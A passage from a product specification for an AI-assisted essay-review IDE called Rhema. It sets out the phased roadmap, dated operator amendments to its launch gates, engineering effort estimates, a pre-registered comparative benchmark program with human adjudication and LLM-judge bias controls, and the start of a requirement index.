| **0 — Foundations** (≈ 18–23 PM; must finish before a pixel of the IDE exists) | monorepo, SST stages, Aurora (≥ 4 ACU) / S3 / Redis, Better Auth, `packages/contracts` (incl. sidecar schemas), `packages/db` with the §11 schema and the RLS wrapper, `packages/protocols` as a path-resolved private package with the ported skills (`phase` / `scope` / `changed_since` / `prior_review` / `sidecar` inputs, `phase-result.json`; Q-11 edits), phase manifests with predicates and back-edges, parsers **and serializers**, the manifest ↔ SKILL.md contract test, `Engine` + `AgentSdkEngine` with the two-uid task image, hooks + audit, egress proxy **as meter and cap enforcer** with per-run credentials, run ledger + balances table + pg-boss, internal run API with attempt fencing, event mapper with fixtures, `FakeEngine` integration suite, instrumented cost runs | a Review of each of the three real projects runs end-to-end in `dev` with `boundary.attested violations = 0`, the attestation derived from the hydration manifest and proxy log, cited ⇒ fetched passing against the proxy log, **every sidecar validating (`parseStatus = ok`) on all three projects**, a gate edit round-tripping through the serializer into the next phase's file, **proxy-metered cost = SDK-reported cost ± 2%**, and (v0.3) the **evaluation pilot wave** run end-to-end on the dev set — all six arms executable, normalization and matching protocols exercised with trained matchers, all deterministic scorers green, σ_d estimated and benchmark n fixed (REQ-EVAL-5) |
| **Benchmark — wave 1** (during/after Phase 0; §18; no UI required) | corpus commissioning + gold annotation (tier-dependent n per Q-23); the six arms at pinned `protocol@version`; pre-registered analysis; wave 1 scored | wave 1 complete and **dispositioned by the operator**; the lift gate read before any UI spend beyond Phase 0 (REQ-BETA-20); on a criterion failure, REQ-EVAL-16's consequences apply before either the beta or the IDE proceeds |
| **Review beta** (ratified (Q-22, 2026-09-01); ≈ 29.5–39.5 PM cumulative — components in the reconciliation paragraph below; REQ-BETA-1…22) | private, invite-only, Essay protocol only; Review + Revise + Fact-check; the nine-step loop on existing designs (paste/upload → scope (venue + stage) → review → dossier → five-verb triage → revise, agent or CodeMirror source editing → what-changed + obligations chip → re-review reading the letter first → rubric-delta before/after); optional inline Quick Voice; no Assistant/chat, no figures, no outline editor, no landing funnel (invite page + sample dossier); of the authorship slice, **S1 — the AI-use statement — rides the beta's export path** (partners export real manuscripts for ≥ 90 days and should not do so undisclosed; §16.3 #28), while S2–S4 (provenance appendix, overlay, span capture) are post-beta under REQ-BETA-3 — deferred, not cancelled; billing core in full — ledger, holds, caps, proxy metering, estimator, refunds — with operator-granted house credits and Stripe Payment Links as the one real-money channel (REQ-BETA-14/15); email notifications with signed actions; the full §3.5 event catalogue for its surfaces plus reason codes, move tracing, lineage and dwell events (REQ-BETA-6…13); 20–25 design partners in three cohorts under the REQ-BETA-17 deal | ≥ 90 days with ≥ 15 active partners against pre-registered gates (REQ-BETA-18): **proceed to the full IDE** if ≥ 50% take ≥ 1 important manuscript through ≥ 2 full rounds unprompted, accept+adapt ≥ 55%, ≥ 60% import a second manuscript, and ≥ 40% convert to real payment; **pivot/iterate in place** if repeat-cycle behavior exists but conversion fails, or dispositions skew rebut/`wrong`; **stop-and-rethink** if round-2 rate < 20%, partners visibly prefer exporting to chat, or median stated WTP < $20/mo — the outcome worth learning early |
| **1 — Web MVP, the full IDE** (Free + Writer + Studio; four protocols; Anthropic only; on the recommended path the ~24–30 PM of demand-sensitive epics — Voices, Assistant, figures, protocols 2–4, growth funnel — start only after the beta gates read; `beta`/`post-beta` ticket tags per REQ-BETA-21) | IDE shell and design system (§5), Page editor with the schema-first Rhema Markdown profile and the conversion preview, autosave and versions (read-only during runs), round timeline, two-tier run sheet with the stateless estimate, Findings surface with Apply, triage mode and the proposal card, rubric, server-side diffs, Approvals with the §6.4 policy (informational scope card, presence timer, pre-filled approvals, gate write-back), Draft / Review / Revise / Fact-check / Figure / Outline / Research, the Assistant with the two-conduit boundary and attachments, the structured outline editor, Voices with Quick Voice / Full Profile / staleness / one Update-voice verb / Substack + upload + URL ingestion, export md/txt/html/docx/rtf/pdf/LaTeX, billing (ladder, entitlement trial, cap guarantee at the proxy, ledger integrity rules, usage levels 0–4, Stripe flows, reconciliation, circuit breaker), landing, signup, Showcase project, trial and abuse controls, notifications (in-app + email with signed actions), the phone-width web inputs, walkthrough and run report, analytics events | the §3.5 activation metrics are measurable; a new user reaches a first finding in ≤4 minutes; nightly golden runs green on all four protocols; the instrumented cost runs replace every provisional credit figure and rigor multiplier; (v0.3) benchmark wave 1 (or a later wave) is dispositioned, and no superiority claim appears on any launch surface unless a pre-registered wave met its criteria (REQ-EVAL-19) |
| **1.x — Named minors** (1.1 first) | **1.1:** BYO keys; passkeys; the mobile app's light edits and "run next with defaults" once the app ships. **1.x:** Cut to length · Line edit · Titles · Abstract · Reverse outline · Interview me · Steelman · Map the field · Run rounds (gated); parallel variants + compare view; Submission pack; Compose voice UI; Medium/RSS/Ghost/WordPress/Google Docs/Notion ingestion; odt/epub/Google Docs export; 10 CSL styles; house styles; sharing roles and read-only dossier links; Team tier; the mobile app (inbox, reader, dispositions, approvals, chat, usage glance, push); Journalism / Creative nonfiction / Technical docs protocols; partial section re-review; parallel section drafting; non-Anthropic models for judge/generate/chat; templates; tags; dossier import; seat profile pages; Source mode (promoted from the beta's CodeMirror edit mode where the beta ran); suggestion marks and the working copy; span-level provenance *marks*, span Authorship overlay and span-granular export (REQ-POS-10 — the AI-use statement, block-level appendix/overlay and span capture shipped at MVP, row 39); section-boundary steering after the spike; the `prosemirror-changeset` in-editor compare; Hocuspocus Redis scaling | round-2 rate ≥ 35%; a 23-finding dossier fully dispositioned on the phone shows the same ledger on the web; Team pooled credits with per-member caps |
| **2 — Later** | Peer-review simulation, Literature map, Structured dialogue, Translate register / Repackage for venue, Reader test (as labeled forecast); custom protocols and rubric editing; marketing copy as house voice; user-attached knowledge corpora per seat; scheduling; org/workspace entity and SSO; public API; "Send to draft" export targets; Temporal (stage 3) when the first non-linear step graph ships; artifact-store tool surface (stage 4); engine revisit (stage 5) | — |

> **⚑ Amendment — 2026-09-15: GATE G2 (benchmark wave 1 + the LIFT criterion) deferred by
> operator decision; Phase-B UI proceeded without the eval.** The benchmark row's "the lift gate
> read before any UI spend beyond Phase 0 (REQ-BETA-20)" is suspended: with the wave-1 eval and
> its H2 corpus prerequisite deferred for build velocity, the beta/IDE implementation proceeds
> now. **What is unchanged:** G2 stays a HARD gate before public launch; **no §16.4
> efficacy/marketing claim ships on any surface until the LIFT criterion is met** (REQ-EVAL-19);
> and REQ-EVAL-16's pre-committed consequences apply retroactively to UI built meanwhile if a
> later wave fails — UI spend past this point is at risk. Operator decision — ledger § GATE
> DECISIONS 2026-09-15; recorded in `docs/tickets/00_MANIFEST.md` § Spec amendments applied and
> **ADR-104**.
>
> **⚑ Amendment — 2026-09-16: the Review beta opens to self-serve signup + self-serve credit
> purchase.** The beta row's "private, invite-only" (and REQ-BETA-19, Appendix A.13) is amended:
> the beta is no longer invite-only — a **public self-serve signup** and **self-serve credit
> purchase** are permitted ahead of the full-IDE launch so the platform can host paying users while
> the H3 partner program (the 20–25 partners, the REQ-BETA-17 deal, house-credit grants) is
> deferred — users pay their own way instead. **The standing bars are unchanged:** **no marketing
> site, no PR, no public launch moment** (the launch stays reserved for the full IDE); **no §16.4
> efficacy/marketing claims on any surface** until GATE G2's LIFT criterion is met (REQ-EVAL-19);
> **Stripe Payment Links remain the one real-money channel** (REQ-BETA-15). The invite machinery
> stays for partner cohorts. The REQ-BETA-18 ≥90-day / ≥15-active-partner gate still reads before
> the full-IDE bodies are written — G3 is deferred, not cancelled, and reads on whatever real-world
> usage exists by then. Operator decision — recorded in `docs/tickets/00_MANIFEST.md` § Spec
> amendments applied and **ADR-008**.
>
> **⚑ Amendment — 2026-09-23 (addendum to the 2026-09-16 banner): GATE G3 was read early on
> operator evidence → PROCEED.** The REQ-BETA-18 ≥90-day / ≥15-active-partner window was skipped
> entirely — the beta opened self-serve (above), so the screened partner cohort never existed as
> designed, and the gate was read on the evidence that existed instead: the platform live
> end-to-end on prod (signup → ingest → review → deliver → billing), a Review delivered within a
> derived cap, and the measured cost structure (~$7–10 metered per quick review). **Recorded
> caveat:** the REQ-BETA-18 thresholds (round-2 rate, accept+adapt, second-import, conversion,
> stated WTP) were never evaluated — the read is statistically weaker by construction, and the
> cost/margin finding would itself have been a pivot signal had the gate run as designed. The
> full-IDE ticket bodies (rows 29–50) unblocked on this read. Operator decision — ledger § GATE
> DECISIONS 2026-09-23; recorded in `docs/tickets/00_MANIFEST.md` § Spec amendments applied and
> **ADR-105**.
>
> **⚑ Amendment — 2026-10-20: the public launch is decoupled from G2; the Phase-1 exit row is
> amended.** (1) The 2026-09-15 banner's "G2 stays a HARD gate before public launch" and the
> 2026-09-16 banner's "no public launch moment" are superseded. The public launch of rhema.tools may
> proceed once round 6's `GATE-LAUNCH` passes. **Unchanged:** no §16.4 efficacy or superiority claim
> ships on any surface until a pre-registered wave meets REQ-EVAL-15 (the REQ-EVAL-19 lint still
> enforces it), and REQ-EVAL-16's consequences still apply retroactively. G2/H2 continue as a
> post-launch research program. (2) The Phase-1 exit row reads, as amended:
> "nightly golden runs green on all four protocols" → **golden validation green on all four
> protocols at the launch SHA, re-run on every protocol-affecting deploy**; "a new user reaches a
> first finding in ≤4 minutes" → **a post-launch target on the organic cohort**, read at
> launch + 14 d; "benchmark wave 1 … is dispositioned" is satisfied by ADR-111's disposition. The
> no-superiority-claim clause is unchanged. Operator decision — ledger § GATE DECISIONS ### Round 6
> (`GD-LAUNCH-G2.R6`, `GD-S17.R6`); recorded in **ADR-111**.
>
> **⚑ Fold-check — 2026-11-11 (205_R6REC.2 / REQ-TAIL-3): the amended exit row verified against
> the launch evidence.** `GATE-LAUNCH` SIGNED 2026-10-27 — 11/13 thresholds MET + 2 ruled
> (`GD-THRESH1.R6`: operator verbatim "skip safari and mobile"; `GD-THRESH13.R6`: flip 1 parked ≥
> 2026-12-01); the launch executed 2026-10-28T04:0xZ with flips 2–4 live-verified. **"Golden
> validation green on all four protocols at the launch SHA" — met:** the minimal four-protocol
> cohort ran green at the launch SHA inside `GD-GOLDEN-CAP.R6`'s ≤ $100 bound ($33.89 list,
> `Promotion OK` after the `GD-GOLDEN-BAND.R6` re-calibration); the per-deploy re-run rule is
> committed at `docs/ops/golden-rerun-rule.md`. **"First finding ≤ 4 minutes on the organic
> cohort, read at launch + 14 d" — converted per its own contract:** the launch + 14.6 d read
> found the organic cohort empty end-to-end, so the target stands as a `GD-WATCH.R6`
> alert-backed watch (owner: operator · trigger: `slo.review.weekly` · re-read 2026-11-25;
> `D-R5OPS.1-1`). **"Benchmark wave 1 … dispositioned" — satisfied by ADR-111:** G2/H2 continue
> as the post-launch research program (BL-40/43/44/45 — owner: operator, trigger: program start;
> re-homed at `204_R6REC.1` under `GD-ROADMAP.R6`). The no-superiority-claim clause is unchanged
> and still lint-enforced (REQ-EVAL-19). All twelve §R6.3 deviations were signed at
> `GATE-ACCEPT.R6` on 2026-11-11 (`GD-ACCEPT.R6`;
> `docs/build/readouts/GATE-ACCEPT.R6.md`).

**Engineering scope, honest estimate** (review 13 §10; senior engineers, agent-assisted implementation, the REQ-SPEC-19 editor cut and no working copy; person-months of engineering effort including verification and eval cost; calendar time not implied):

| Area | PM | Drivers |
|---|---|---|
| Foundations: monorepo, SST stages, ECS/Aurora/S3/Redis, Better Auth, CI (5 jobs), observability, previews | 4–5 | RLS and preview isolation add a month |
| Run engine: `Engine`, hooks, mirror/harvest/commit, gates and write-back, reaper, two-uid run-task image, internal API with fencing, **proxy as meter**, `FakeEngine` suite | 9–11 | proxy-as-meter and privilege separation are new work vs v1.0; resumability and fencing take longer than they read |
| Skill port: manifests, the six inputs and the result file, sidecar outputs, parsers + serializers, completion predicates, contract tests, instrumented cost runs, evals | 5–7 | dominated by iteration against real runs at $150–300/night |
| Editor/collab (after the cut): schema + markdown profile + import + conversion preview, Tiptap page, findings decorations, proposal card, autosave/restore, read-only compare | 6–8 | without the cut: 12–16 |
| IDE shell and surfaces: design system, project list, timeline/run cards, run sheet + estimator UI, findings/triage/rubric, Browser, inbox/notifications, palette, phone-width inputs, a11y | 9–11 | large surface; each surface is well specified |
| Assistant chat + Research and Outline runs + outline editor + figures (render worker, proposal card) | 4–5 | compaction brief, pins, plan card, `read_artifact` refs, attachments |
| Voices + ingestion: Substack, upload/paste/URL, `fetcher`/`convert` split, PDF pipeline, staleness, calibration UI, seed editor | 5–6 | PDF quality bench is open-ended; time-box it |
| Billing: Stripe flows, ledger + balances + holds, entitlement trial, estimator service, cap/hold/refund semantics, four usage levels, trial/abuse controls, circuit breaker | 4–5 | ledger correctness tests are most of it |
| Export: pandoc/Typst container, CSL, docx/rtf/pdf/latex, account export/import golden | 2–3 | |
| Landing, onboarding, Showcase, analytics, email | 2–3 | |
| Security hardening and review: SSRF split, tenancy tests, usercontent origin, injection controls, external pen-test **(ADR-112, 2026-10-20: the external pen-test moved to a post-launch ≤ launch+60 d obligation; the launch gated on the in-round adversarial review — §12.8 banner)** | 2–3 | |
| Evaluation program (§18; added v0.3): corpus pipeline, enclave, extraction/matching tooling, wave runner + report | 2–3 | mostly reuse of the evals harness; the matching UI is the new build |
| **Total** | **52–67 (v0.2 scope, excl. the evaluation row) · ≈ 57–74 with the v0.3 additions** | ≈ 6 engineers for 9–11 months, or 4 for 13–17; without the editor and working-copy cuts add 8–12. Arithmetic (design/19 F-3): the rows above incl. the evaluation row sum to 54–70; obligations (+1.5–2.5, engine/IDE work) and the authorship slice (+1.25–2, editor/export work) are carried as **additive line items** — the row values are unchanged v0.2 estimates and do *not* yet contain them; both fold into the affected rows at the Phase-0 re-estimate. 54–70 + 1.5–2.5 + 1.25–2 ≈ 57–74 — §16.3 #24 |

Phase 0 (foundations + engine + port) is **18–23 PM before a single pixel of the IDE exists** — the right order, because the three riskiest bets (verbatim skills one phase per `query()` with completion oracles, write-back and structured output; a sandbox that cannot reach the token or the key; the estimate-and-cap contract metered at the wire) are all Phase-0 work, and every surface built on `Finding[]` is hollow if the first bet fails.

**The beta path, reconciled against this table (v0.3; design/18 §2.3).** Foundations, the run engine and billing-core barely shrink — the engine *is* the validation instrument, the port *is* the product, and the cap guarantee is under validation itself; the savings live in the other rows (editor 1.5–2.5 instead of 6–8: rendered read view + CodeMirror source mode, no Tiptap schema or autosave layers; shell 4–5.5 instead of 9–11; Assistant/figures 0; Quick Voice 0.5–1; billing 2–3 with subscriptions deferred; export md/txt/docx only; invite page instead of a landing funnel — analytics is *not* cut, it is the point). Net (recomputed v0.3 final; design/19 F-2): the beta's own Phase 0 is **≈ 16.5–21 PM** — under §17's 18–23 because Draft's port defers (design/18 §2.3, a load-bearing note restored here) — plus the ≈ 10–15 PM UI-and-product layer (design/18's beta row-sum ≈ 27.5–37, carried as the 28–37 PM base), plus the **+1.5–2.5 PM obligations delta**, which rides the beta's own loop (chips, lineage, what-changed): **≈ 29.5–39.5 PM to first external manuscripts**, with an estimated **3–5 PM double-work tax** when the full IDE follows (CodeMirror editing survives as 1.x Source mode; simplified surfaces are rebuilt on the design system), so the beta path totals **≈ 60–79 PM** against the direct plan's **≈ 57–74 PM** — the beta still "costs" ~3–5 PM and buys market evidence ~27–35 PM earlier, and its data seeds the §11.7 preference profile and hardens the §18 corpus with real dispositioned dossiers. The beta is a strict subset of Phase-1 epics ordered loop-first, same repo, same contracts (`findings-core`, gate contracts, run API), with exactly two beta-only stopgaps (REQ-BETA-21); Phase-1 work may continue during the beta window only on post-beta epics no gate could plausibly cancel. The failure mode to refuse is "beta as marketing preview while the full build barrels on" — that spends the PM and collects none of the option value.

> **⚑ Supersession note — 2026-10-10 (round-4 SPA build, SPAREC.2): REQ-BETA-21's "CodeMirror
> edit mode → Source mode" stopgap shipped as a designed feature.** Source mode landed in round
> 4 as REQ-ED-17 — a plain-text CodeMirror 6 view bound to the same ProseMirror doc + collab
> session on the SPA mount (SPA.25; `docs/design/30_spa-source-mode.md`), earlier than this
> paragraph's "1.x" schedule. `docs/frontend-spa-spec.md` §14.10 is canonical for the landed
> shape; this row's schedule language is superseded, not its substance.

Hand-off contract (ledger O6): every requirement in Appendix A carries a stable id and, where the source supplied one, an acceptance hook (the AC column; "to write (O6)" marks the rest); open decisions are marked in §16.3 with an owner; the feature matrix row number is the epic id; the canonical vocabularies of §0.3 and §4.3 are binding on every ticket.

---
## 18. Evaluation program (comparative benchmark)

*Added v0.3 (design/16; ledger §C). §13.5's evals are regression instruments: they compare Rhema to Rhema. This section defines the **comparative benchmark**: the standing measurement of Rhema against the strongest alternatives a writer already has, on ground truth established by professional editors. Its outputs gate marketing claims, Full-board pricing, and protocol R&D continuation. It shares the §13.5 harness (fixtures format, deterministic scorers, pinned `protocol@version`, proxy metering) and adds a corpus, human adjudication, and a pre-registered analysis. It requires no product UI — it runs on the Phase-0 engine (§17).*

### 18.1 Corpus

**REQ-EVAL-1.** The benchmark corpus is distinct from `evals/fixtures/`: ≥24 (target 30) unpublished, human-written serious-nonfiction drafts, stratified across the shipped protocols (Essay-weighted: ~12 Essay · 10 Academic · 6 Op-ed · 2 Memo) and lengths 2k/5k/8k, each commissioned from a working writer under a written license covering evaluation use and transmission to model providers under their API terms. The three real projects are the frozen **dev set**; dev-set results never appear in headline numbers. Synthetic-flaw suites are scorer-development tools; their numbers are never published as benchmark results.

**REQ-EVAL-2 (contamination).** Every corpus draft satisfies, with evidence recorded per draft: created after the newest arm model's training cutoff (or verifiably never published/indexed); author attestation of human authorship without generative-AI drafting; near-duplicate web search clean; unique canary embedded; per-wave memorization probe passed for each arm model (failure excludes the draft from that arm, by pre-registered rule).

**REQ-EVAL-3 (enclave).** The corpus and gold annotations live in an access-logged private store; they are never used in training, fixtures, demos, or marketing; drafts reach model APIs only inside benchmark runs from accounts whose no-training/retention terms were **verified in writing** (open item: not yet verified for any provider; nothing is transmitted until it is). ≥20% of the corpus rotates per year — rotation also underwrites the *repeatable* half of the lift criterion.

**REQ-EVAL-4 (gold set).** Two independent professional editors annotate each draft in the Finding schema (§5.7 vocabulary) plus a `material` flag ("a competent editor would require this addressed before publication"); a third senior editor adjudicates into the gold set. Inter-annotator agreement is computed per draft and reported with results; drafts below the pre-registered agreement floor are re-adjudicated or dropped — an editorial ground truth two professionals cannot roughly agree on is not ground truth.

**REQ-EVAL-5 (power).** The primary analysis is paired per-draft. A pilot wave on the dev set estimates the variance of the paired recall difference; final n is fixed from that estimate at ≥80% power for a 10-point recall difference, floor n=24. (At realistic variance, n=30 detects an 8–10-point difference — comfortably below the 15-point criterion, so a pass is not a fluke and a fail is informative.)

### 18.2 Arms

**REQ-EVAL-6.** Six arms: (A1) **steelmanned one-shot frontier** — prompt adversarially tuned on the dev set by an owner incentivized to maximize its score, given the same inputs Rhema receives (draft, genre, venue, stage, author's goals — never a bare "review this"), run on the best current frontier model from any provider (best-of-the-two pre-registered candidates), native search, maximum reasoning settings, re-steelmanned every wave, and its prompt published with results; (A2) iterative generic workflow (published recipe, ~5 turns, no protocol content); (A3) Grammarly-class, scored only on craft-level metrics and FP rate (it does not attempt developmental review — scoring it there would be a strawman in reverse); (A4) Rhema Standard; (A5) Rhema Full board; (A6) human professional editors at a market-realistic paid engagement, distinct from the gold annotators — the reference for "what money currently buys", not a ceiling claim. Rhema arms run the production engine and protocol package as they will ship, at pinned `protocol@version`, with **no eval-only tuning or forks** (wave 1 predates any shipped UI; the pinned engine build is the product for this purpose).

**REQ-EVAL-7 (normalization).** All arm outputs are normalized into the common finding schema by extractors blind to arm, from de-branded outputs, under a verbatim-substance rule (segment and locate, never sharpen — a vague baseline comment stays vague); extraction fidelity is audited on a sample.

### 18.3 Scoring

**REQ-EVAL-8 (human adjudication where it counts).** Material-issue recall matching, false-positive validity, novelty confirmation, and post-revision pairwise preference are decided by trained humans blind to arm, with senior adjudication; automated matchers may only suggest. The fetched LLM-judge literature (position, verbosity, self-preference, leniency biases) disqualifies LLM judges from exactly these calls; any future cost-down must subsample, never substitute.

**REQ-EVAL-9 (judge hardening).** LLM judges are restricted to secondary metrics and suggestions; any LLM judge is from a different model family than every arm it scores; pairwise LLM judging (secondary only) is position-swapped with disagreement scored as a tie; rubrics are anchored with exemplars; scoring is per-finding-unit with length reported; each wave, every LLM judge is calibrated against the human-adjudicated subset and is disqualified below weighted kappa 0.6. The A-stream's verified-literature requirements **C-a…C-g** (research/13 §A4) are binding on judge design: (a) randomize and swap presentation order in every pairwise judgment and report position-consistency; (b) report chance-corrected agreement (κ), never raw agreement, for judge↔editor comparisons; (c) leniency is worst on weak drafts, so the corpus oversamples known-bad drafts and judge calibration is validated per severity stratum, not on average; (d) different-model-family judges vs the system under test; (e) style-perturbed controls — the same draft "laundered" (surface-polished, substance unchanged) must not score materially higher, or the judge is measuring fluency, not argument; (f) inter-arm finding diversity is a first-class metric (the second read's value proposition and the anti-hivemind check); (g) deterministic scorers before LLM judges, and any holistic LLM score without an anchored decomposition is untrusted.

**REQ-EVAL-10 (pre-registration).** Before each scored wave: arms and exact configurations (model IDs, settings, prompts), corpus manifest, metric definitions, matching and exclusion rules (incl. the memorization probe), the statistical analysis, and the lift criterion are frozen and hash-committed (public registration for waves intended for publication). Deviations are logged in the wave report. The dev set is exempt.

**REQ-EVAL-11 (metrics — all twelve of the critique's §12, operationalized).** The wave report computes: material-issue recall (primary: major+blocking); false-positive rate (unmatched findings adjudicated `valid-but-missed-by-gold` → novelty credit vs `invalid`); anchoring/specificity (deterministic, the §5.7 anchor ladder); reviewer factual accuracy (audited sample); source quality; novelty (panel-confirmed valid-but-missed-by-gold); severity calibration (weighted kappa vs adjudicated severity); revision-plan usefulness (anchored human rubric); post-revision improvement (gold-issue resolution count + blinded pairwise preference, both orders); voice/meaning preservation (REQ-EVAL-12); second-read marginal contribution (REQ-EVAL-13); cost and latency (REQ-EVAL-14). Headline scoring is reference-based against gold, never pairwise — which removes position bias from the headline path entirely.

**REQ-EVAL-12 (voice preservation).** Measured with the product's own measurement service: post-revision voice-feature band conformance against the author's measured ranges, drift direction, and cross-arm convergence (the homogenization signal); a claim-inventory meaning diff in which every dropped/negated/weakened Tier-1 claim must trace to a disposed finding (the eval-side twin of §11.7's obligation lineage); optional blinded author ratings as descriptive support.

**REQ-EVAL-13 (second read).** The second read's marginal contribution is measured as gold-set hits unique to `origin=second_read` findings kept at reconciliation. This supersedes §16.3 #13's in-product-only measurement; no upgrade copy quotes a second-read number from any other source.

**REQ-EVAL-14 (economics).** Every quality table carries proxy-metered list cost and wall-clock per arm; the report includes recall-per-dollar across arms and rigor levels.

### 18.4 The lift criterion and consequences

**REQ-EVAL-15 (LIFT).** The pre-registered pass criterion: Rhema Full board over A1 on major-or-blocking material-issue recall by **≥ 15 percentage points absolute**, at an invalid-finding rate no worse than A1, **sustained across two consecutive pre-registered waves** differing in model versions and/or ≥20% of corpus; and, as guard rails, blinded editors prefer the Rhema-revised manuscript over the A1-revised manuscript in **≥ 60%** of pairwise judgments with voice band-conformance not worse than A1's. Why 15: it sits ~1.5–2× above the n=30 minimum detectable effect, and it is the smallest gap supporting the only marketing sentence worth having; a 5-point lift — real but small — is precisely the "feature, not company" outcome, since horizontal platforms close small gaps by default. (Operator confirmation of the numbers — 15 pts / 60% / two waves — was given 2026-09-01 (§16.3 #27); the pre-registration may freeze them.)

**REQ-EVAL-16 (go/no-go, pre-committed).** *Immediately, always:* no user-facing or investor-facing superiority claim ships except from a wave meeting pre-registered criteria (extends REQ-GROWTH-5); this binds from day one in every budget tier. *One miss:* superiority marketing stays off; the Full-board premium is re-justified on measured second-read contribution (REQ-EVAL-13) or re-priced; protocol R&D pivots to the exposed recall gaps; re-test next wave. *Two consecutive misses on a healthy benchmark* (agreement floors met, baseline steelman audit passed): the editorial-quality thesis is treated as **falsified at current model capability** — protocol R&D spend freezes and the operator disposes among (i) repositioning on the value the benchmark did validate (workflow, provenance, trust, voice), (ii) shelving Full board and competing at Standard economics, or (iii) wind-down of the quality-premium strategy. What the program forbids is the fourth option: continuing to sell rigor the measurement contradicts. *Symmetric honesty:* if A1 beats Rhema on any headline metric in any wave, the result is reported internally unspun and the §17 roadmap re-opens.

**REQ-EVAL-17 (cadence).** Pilot wave at Phase-0 exit (machinery, dev set); wave 1 before launch gates launch claims; quarterly waves thereafter (full or lean per budget); a major frontier release triggers a re-steelmanned mini-wave within 30 days, escalating to a full wave if the measured gap halves — the bar the company must clear moves with the frontier.

### 18.5 Publication and defensibility

**REQ-EVAL-18.** Public per published wave: full methodology (corpus-construction protocol, annotation schema and IAA numbers, metric definitions, matching rules, judge-bias controls, pre-registration reference), the A1 baseline prompt and A2 recipe **verbatim**, aggregate results per arm with stability bands, and consented examples. Private, always: the corpus texts and gold annotations (contamination + license), per-draft results, Rhema protocol content (SS class, §8.4), and Rhema run prompts. Third-party auditors may verify under NDA with logged enclave access. Benchmark-derived marketing copy cites the wave id. Publishing the baseline prompt immunizes the result against the only fatal rebuttal ("weak baseline"); publishing IAA does the same for "editors don't even agree"; if LIFT fails, nothing is published and the discipline of REQ-EVAL-19 is itself the quieter trust story. Sequencing: publish only after two waves sustain the criterion — a single-wave publication invites a replication we haven't done ourselves. This is how §1.6 asset 8 resolves the open-methodology question: **open the evaluation's methodology, keep the product's methodology closed.**

**REQ-EVAL-19.** Extends REQ-GROWTH-5: any comparative or superiority statement on any surface (landing, pricing, Showcase, sales, investor materials) must cite a pre-registered wave that met criteria; preliminary-corpus results are always labeled preliminary and never ground a superiority claim.

**REQ-EVAL-20 (infrastructure).** Benchmark runs execute on the §12 run architecture with §12.7 metering, pinned engine build and `protocol@version`, config-hash recorded per run; results are durable rows joinable to run-ledger data. The benchmark harness lives beside `evals/` and reuses its scorer framework.

### 18.6 Economics and cadence recommendation (Q-23; provisional figures)

Corpus is capex, waves are opex (rates fetched 2026-09-01 — EFA/Reedsy for annotation; provider list prices for compute): one-time **≈ $38k** for the n=30 gold corpus (~$900/draft blended annotation + commissioning fees) plus **≈ $7.5k** for the A6 human-editor arm and ≈ $3k pilot; per wave, **compute ≈ $2.5–3k** and **human scoring ≈ $8–14k** → **full wave ≈ $12–18k · lean wave ≈ $6–9k · automated-only tracking ≈ $3k**. Human adjudication dominates cost because the judge-bias literature says it must. An external prompt-engineer contract for the A1 steelman (~$2–5k/wave) is a line item, not an afterthought. **Recommendation (Q-23 ratified):** ≈ **$100k across the first two quarters** (corpus + A6 + two full pre-registered waves — the criterion decidable before/at launch), then **$10–15k/quarter** steady state. A flat $10k/quarter is the minimum at which the program is real, with the criterion decidable ~12–15 months in and no superiority claim shippable until then; $2k/quarter funds baseline-drift instrumentation, not an evaluation program, and leaves the critique's central test permanently unanswered. Rhema-arm costs are provisional until §16.3 #1's instrumented runs; the wave cost table recomputes after them.

---
## Appendix A — Requirement index

Every `REQ-*` from the design documents, with its source, the section of this spec that carries it, its status (`kept` verbatim in substance; `amended` where this spec changes it; the amended text is in the cited section and names the ID), and an **AC** column: the acceptance hook where one exists in the body, or `to write (O6)` for the ticketing session (review 11 #41). Every cited section names its ID in the body (the twelve dangling rows of review 11 #40 are fixed). `REQ-SPEC-n` rows are additions by this synthesis.

### A.1 REQ-IDE (design/2 — IDE core UX)

| ID | One line | Spec § | Status | AC |
|---|---|---|---|---|
| REQ-IDE-1 | Stable deep-linkable URL for every project, version, run, approval, finding, artifact; restores layout | 4.2 | kept | to write (O6) |
| REQ-IDE-2 | Rail identical in workspace and IDE scope; carries the Inbox badge | 4.1, 5.11 | amended (badge counts approvals and decisions only); **ADR-128 2026-11-05 (R7SHELL.1a): the rail's items moved into the AppShell sidebar + status bar — the identical-chrome and badge rules carry over; the rail DOM is suppressed while hosted and deleted by 230** | to write (O6) |
| REQ-IDE-3 | Project rows: state, version, ≤120-char summary, voice chip, one primary action; state derived | 5.2 | kept | to write (O6) |
| REQ-IDE-4 | Quiet projects collapsed by default; Needs-you rows sort by soonest deadline | 5.2 | kept | to write (O6) |
| REQ-IDE-5 | New-project dialog: exactly three entry points + title, protocol/venue, voice (default Unfiled); lands on the right next-step card | 5.3 | kept | to write (O6) |
| REQ-IDE-6 | Group-by defaults to Attention; Voice grouping/filter persisted per user; new projects Unfiled | 5.2 | amended (voice grouping with Unfiled first as the alternate) | to write (O6) |
| REQ-IDE-7 | Voice editable until v1; afterwards Fork under another voice — and Adopt refreshed profile — with the reason inline | 9.6 | amended (adds Adopt) | to write (O6) |
| REQ-IDE-8 | Exactly seven named regions; Browser and Desk closed by default; Margin only with findings; pane state per user per project | 5.1 | kept | to write (O6) |
| REQ-IDE-9 | Page width clamped to [45 ch, 80 ch], 68-ch target | 5.1 | kept | to write (O6) |
| REQ-IDE-10 | Every control classified Default / On demand / Advanced; Advanced never gates a workflow | 5.1 | kept | to write (O6) |
| REQ-IDE-11 | Run cards render orchestrator phase state, counters, elapsed, credits vs cap, ETA band; nothing from agent text | 5.5 | kept | to write (O6) |
| REQ-IDE-12 | Skipped opt-out phases listed as "off" on the card and in the run report | 5.5 | kept | to write (O6) |
| REQ-IDE-13 | Every run launched from the sheet (target, rigor, phase deltas, approval policy, estimate, cap, balance); primary button is the only paywall **(amended 2026-09-30 — the sheet also shows and changes the model tier within plan rules; see the Appendix A.9 note)** | 5.6 | amended (two-tier sheet; model tier under the fold) | to write (O6) |
| REQ-IDE-14 | Live feed in three densities; Verbose is Advanced; no event carries prompt text, reasoning, or private memory | 5.5 | kept | to write (O6) |
| REQ-IDE-15 | Findings stream into the Margin as provisional cards during a review; finalized at delivery | 5.5 | amended (provisional cards have no controls; reconciliation conflicts surface) | to write (O6) |
| REQ-IDE-16 | Named approvals as approve-with-deadline cards with pause-while-reading, "Wait for me", recorded decision; expiry runs the conservative path | 6.4 | amended (deadlines per gate; triage waits; presence timer; pre-filled) | to write (O6) |
| REQ-IDE-17 | The spend gate never auto-continues | 6.4 | kept | to write (O6) |
